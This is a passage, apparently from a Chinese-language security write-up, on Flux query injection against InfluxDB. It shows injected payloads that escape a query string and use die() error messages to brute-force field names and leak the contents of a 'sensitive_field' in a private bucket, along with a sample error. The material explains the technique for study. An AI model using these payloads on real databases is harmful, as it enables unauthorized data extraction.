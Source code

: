 也就是这个bucket中的所有的结构和其对应的数据类型，那么接下来便可以爆破其字段的名称

```js
") |> yield(name: "1337")
 from(bucket: "privateBucket") |> range(start: 0) |> filter(fn: (r) => r._field =~ /s.*/ and die(msg:r._field))
 //
```

也就是爆破出以`s`开头的字段名称，这个和前面泄露bucket名的是一个原理

![](assets/1706959875-ee70623f29511ba522b6a52aa593a6e8.png)

可以看见这个字段名为:`sensitive_field`

接下来就是爆其数据了

```js
") |> yield(name: "1337")
 from(bucket: "privateBucket") |> range(start: 0) |> filter(fn: (r) => r._field == "sensitive_field" and die(msg:string(v:r._value)))
 //
```

注意下这里的数据类型！！不然可能会报错(放出为int类型的时候，**因为r.field默认为int类型**)

```cpp
HttpError: runtime error @2:54-2:124: filter: type conflict: string != int
```

![](assets/1706959875-76a15ade56da9b36219961f2b3ca3bbb.png)
